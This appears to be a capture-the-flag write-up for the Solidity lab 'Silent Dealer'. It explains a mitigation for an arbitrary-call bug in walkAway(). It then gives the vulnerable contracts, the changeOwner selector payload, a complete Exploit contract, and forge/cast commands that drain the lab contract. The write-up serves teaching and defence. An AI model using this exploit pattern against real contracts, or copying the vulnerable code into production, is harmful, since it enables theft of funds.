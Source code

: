 ## Mitigation

The Silent Dealer *walkAway()* allows you to specify the target with *_to* and the value of the raw data with *data*; this could be dangerous as an attacker could make a function call to a specific contract there. The easiest mitigation for this and actually one of the best practices out there is just to not specify the *_to*, but if it is required, we need to make sure that the raw data is empty or just *""*, let's fix the contract!  &nbsp;  
&nbsp;  
```solidity
// Unsafe
function walkAway(address _to, uint256 amount, bytes memory data) public {
    (bool success, ) = _to.call{value: amount}(data);
    require(success, "Transfer failed.");
}

// Mitigated
function walkAway(uint256 amount) public {
    require(address(this).balance >= amount, "Insufficient balance.");

    // Send funds only to the caller to prevent misuse
    // Ensure that data is not from input, set to empty
    (bool success, ) = msg.sender.call{value: amount}("");
    require(success, "Transfer failed.");
}
```
&nbsp;  
This mitigation prevents *Arbitrary Execution* because we remove the *raw bytes* input to the call, and by making the *_to* gone and changing it to *msg.sender*, we ensure that it can only make calls to the right *msg.sender*. 

## Walkthrough

Here we have 2 source code, one is *Setup.sol* and another one is *Dealer.sol*, In order to make *Setup.sol::isSolved()* return true, we must make the balance of *Dealer Contract* become 0 and the *owner* is no longer *Setup Contract*.
&nbsp;  
&nbsp;  
```solidity
contract Setup{
    Dealer public dealer;

    constructor() payable{
        dealer = new Dealer();
        dealer.joinGame{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(dealer).balance == 0 && dealer.owner() != address(this);
    }

}
```
&nbsp;  
Based on the initial setup, we know that the current owner is *Setup Contract* and it has 50 Ether. Let's take a tour of the *Dealer Contract* now,
&nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Dealer{
    bool public readyToRig;
    address public owner;
    uint256 public rewardPool;
    mapping(address => uint256) public balanceOf;

    constructor() payable{
        owner = msg.sender;
    }

    function joinGame() public payable{
        require(msg.value >= 5 ether, "Must Deposit Minimum of 5 Ether!");
        balanceOf[msg.sender] += msg.value;
    }

    function bet(uint256 _amount) public{
        require(balanceOf[msg.sender] >= 5 ether, "Need 5 Ether to bet");
        require(_amount >= 2 ether, "Start with 2");
        rewardPool += balanceOf[owner];
        balanceOf[owner] = 0;
        rewardPool += _amount;
        balanceOf[msg.sender] -= _amount;
        readyToRig = true;
    }

    function startRiggedBet() public onlyOwner{
        require(readyToRig == true, "Pool is not filled!");
        balanceOf[owner] += rewardPool;
        rewardPool = 0;
        readyToRig = false;
    }

    function endWholeGame() public onlyOwner{
        uint256 toSend = balanceOf[owner];
        (bool sent, ) = owner.call{value: toSend}("");
        require(sent, "Ending Game Failed!");
    }

    function walkAway(address _to, bytes memory message) public {
        require(readyToRig == true, "You want to wal away empty handed?");
        uint256 leftAmount = balanceOf[msg.sender];
        balanceOf[msg.sender] -= leftAmount;
        (bool sent, ) = _to.call{value: leftAmount}(message);
        require(sent, "You can't run it seems.");
    }

    function changeOwner(address _newOwner) public payable{
        require(msg.sender == address(this), "Only Dealer can change owner");
        owner = _newOwner;
        balanceOf[owner] += msg.value;
    }

    modifier onlyOwner(){
        require(msg.sender == owner, "Only Owner can start bet!");
        _;
    }

    receive() external payable {
        if(msg.value == 5 ether){
            balanceOf[msg.sender] += msg.value;
        }else{
            rewardPool += msg.value;
        }
    }
}
```
&nbsp;  
We can see that it can receive ether with 2 functions, the *joinGame()* and *receive()*. The only difference is that when we use joinGame, it requires us to send at least 5 Ether, while the receive function has a logic: if the amount is exactly 5 Ether only, then it will be added to our balance; otherwise,  it will be added to the rewardPool. &nbsp;  
&nbsp;  
The *bet()* function allows us to put our money on the line, and while we have the freedom to choose how much money we want to spend, the *owner* seems to go all-in, kind of weird, right? Turns out, the next function *startRiggedBet()* will actually make the owner always win since it transferred all the rewardPool to the owner, and after that the owner could call *endWholeGame()* and just get all the money there. &nbsp;  
&nbsp;  
We as a player also have an option, but that is only available after we *bet()* some of our money. We can just *walkAway* with the money we have left and leave a message... Oh well, we can leave a message that is being handled by *call()*, and with that we can actually call *changeOwner()* and make ourselves the *owner*. This could happen because if we parse a bytes, that's actually a function call. What's a function call? In Ethereum, they call a function by giving a 4 bytes, or what they often call a function selector or signature, it's the first 4 bytes of *keccak256(functionName(args_type))*. &nbsp;  
&nbsp;  
So here is what we are going to do:  &nbsp;  
&nbsp;  
1. We *joinGame()* with 5 Ether
2. We *bet()* 3 Ether
3. We *walkAway()*, the current rewardPool is 53 Ether, but we transfer the money to *dealer* by providing his address, effectively giving it 2 Ether (our leftAmount) and parse a message containing the call of *changeOwner(address)* with the address pointing to our Exploit Contract.
4. The current owner will be our exploit contract; we can just *startRiggedBet()*, taking all the rewardPool
5. Transfer all money to our pocket by calling *endWholeGame()*.

&nbsp;  
The message that we are going to provide will consist of the name of the *changeOwner()* selector and the address of our Exploit contract; it is constructed like this &nbsp;  
&nbsp;  
```test
// Default Construction
[4 bytes - selector] [32 bytes - Data/Args ] [can add more 32 bytes (SLOT) if needed]

// changeOwner(address) - newOwner address
0xa6f9dae1 000000000000000000000000 00648ca25a2e54b636c22cd5e1df72da69570aa2
|selector| |   padding 12 bytes   | |     newOwner Address - 20 bytes      |
|4 bytes | |-------------------------32 bytes / 1 SLOT---------------------|
```
&nbsp;  
How do we get *0xa6f9dae1*? Well, we can use the built-in function *abi.encodeWithSignature(funcName(args-type), args-value)*, in our contract to parse this. Okay now that we understand what we need to do and how to do it, here is the full exploit to finally solve the lab. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./Dealer.sol";

contract Exploit{
    Dealer public dealer;
    Setup public setup;

    constructor(address _setup) payable{
        setup = Setup(_setup);
        dealer = Dealer(setup.dealer());
    } 

    function exploit() public{
        dealer.joinGame{value: 5 ether}();
        dealer.bet(3 ether);
        dealer.walkAway(address(dealer), abi.encodeWithSignature("changeOwner(address)",address(this)));
        dealer.startRiggedBet();
        dealer.endWholeGame();
    }

    receive() external payable { }

}
```
&nbsp;  
We just need to deploy the solver and give it 5 Ether to execute the *joinGame*, here is how you can do it. &nbsp;  
&nbsp;  
```bash
// deploy the contract
forge create src/silent-dealer/$EXPLOIT_SOL:$EXPLOIT_NAME -r $RPC --private-key $PK --constructor-args $SETUP_ADDR --value 5ether

// Launch the Exploit
cast send -r $RPC --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Now you should've solved the lab!
